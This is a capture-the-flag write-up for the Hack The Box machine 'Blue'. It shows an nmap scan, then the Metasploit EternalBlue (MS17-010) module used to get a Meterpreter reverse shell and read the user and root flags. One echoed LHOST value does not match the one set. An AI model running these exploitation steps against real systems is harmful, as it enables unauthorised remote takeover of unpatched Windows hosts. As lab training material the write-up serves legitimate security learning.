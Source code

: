 ## ------>> Blue <<-------

// We will start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.40 -p-
-----

    Nmap scan report for 10.10.10.40
    Host is up (0.46s latency).
    Not shown: 65526 closed ports
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: -8m45s, deviation: 34m37s, median: 11m12s
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-06-17T04:37:57+01:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-06-17T03:38:00
    |_  start_date: 2021-06-17T03:22:12


// From the scan we can see the host OS[Operation System] is Windows 7 and there is SMBv2 service open

// The combinaniton of Win7 os and smb v2 its the requirments for the famous Eternal-Blue Exploit

// Lets open MetaSploit

    $ msfconsole
 -----
 
    msf6 > use exploit/windows/smb/ms17_010_eternalblue

    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.16.197
    LHOST => 10.10.17.8
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 1444
    LPORT => 1444
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blue/1.png)

    meterpreter > sysinfo
    Computer        : HARIS-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_GB
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x64/windows

// we got user and root flags!

    meterpreter > cat user.txt
    4c546aea.................

    meterpreter > cat root.txt
    ff548eb..................
